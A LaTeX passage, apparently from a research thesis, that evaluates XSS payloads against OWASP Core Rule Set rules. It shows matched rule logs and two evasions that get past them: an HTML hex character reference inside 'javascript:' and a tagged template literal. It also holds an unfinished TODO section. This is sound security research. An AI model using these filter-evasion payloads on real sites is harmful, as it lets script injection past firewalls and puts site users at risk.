 \begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss injection blocked, label={lst:storedxssinjblocked}]
<payload><a href=javascript:alert('a')>ClickMeFor$</a></payload>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "259"] [id "941170"]<fileDetails>
<MatchedData>"javascript:alert('a')>ClickMeFor$<"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "357"] [id "941210"]<fileDetails>
<MatchedData>"javascript:a"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

On escaping the first \verb|a| in \verb|javascript:| using the HTML hex character reference, the payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

This payload bypasses the rules with ids \verb|941170| (NoScript XSS InjectionChecker: Attribute Injection) and \verb|941210|(IE XSS Filters - Attack Detected). 

As this result is promising, another iteration of applying this technique has been used in the multi iteration evaluation. The results are stated unter Section~\ref{sec:doublehtmlcharref}.


\subsubsection{Function Constructor}
\label{sec:functionconstructorsingleeva}

{\color{red}TODO also: mention global objects here \cite{js/builtin}}

\subsubsection{Tagged Template Literals}
\label{sec:taggedtemplateliteralsevaluation}
As stated in Listing~\ref{lst:alertXSSblocked}, the payload \verb|alert('XSS')| is being blocked by the tested firewall.
After substituting the function call using \verb|('XSS')| with a Tagged Template Literal in the form of \verb|alert`XSS`|, the payload successfully bypasses the firewall and reaches the web server:

